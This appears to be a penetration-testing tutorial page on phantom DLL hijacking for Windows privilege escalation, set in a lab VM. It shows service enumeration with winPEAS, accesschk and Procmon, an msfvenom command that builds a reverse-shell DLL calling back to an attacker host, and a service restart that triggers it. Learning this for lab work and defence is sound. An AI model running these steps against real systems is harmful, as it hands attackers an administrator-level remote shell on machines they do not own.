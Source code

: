 # Phantom DLL Injection

in this type of DLL we target a missing dll and place our own dll instead.

Use winPEAS to enumerate non-Windows services:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../.gitbook/assets/image%20%2871%29.png)

Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```text
accesschk.exe /accepteula -uvqc user dllsvc
```

![](../../../../.gitbook/assets/image%20%2881%29.png)

The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```text
 sc qc dllsvc
```

![](../../../../.gitbook/assets/image%20%2874%29.png)

![](../../../../.gitbook/assets/image%20%2888%29.png)

in a real-world scenario we would download the executable to our own windows machine of analysis.then create a new service for the binary file that we copied and give it the path of the service binary and continue to the next steps:

create a service for the binary in our own system

```text
sc create binPath= c:\temp\dllhijackservice.exe type= own 
```

Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

Add a new filter on the Process Name matching dllhijackservice.exe

![](../../../../.gitbook/assets/image%20%2878%29.png)

On the main screen, deselect registry activity and network activity.

![](../../../../.gitbook/assets/image%20%28102%29.png)

Start the service:

```text
net start dllsvc
```

![](../../../../.gitbook/assets/image%20%2880%29.png)

​​Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

![](../../../../.gitbook/assets/image%20%28103%29.png)

At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

On Kali, generate a reverse shell DLL named hijackme.dll:

```text
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f dll -o VirtualBox\ VMs/shares/hijackme.dll
```

Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```text
net stop dllsvc
net start dllsvc
```

![](../../../../.gitbook/assets/image%20%2890%29.png)





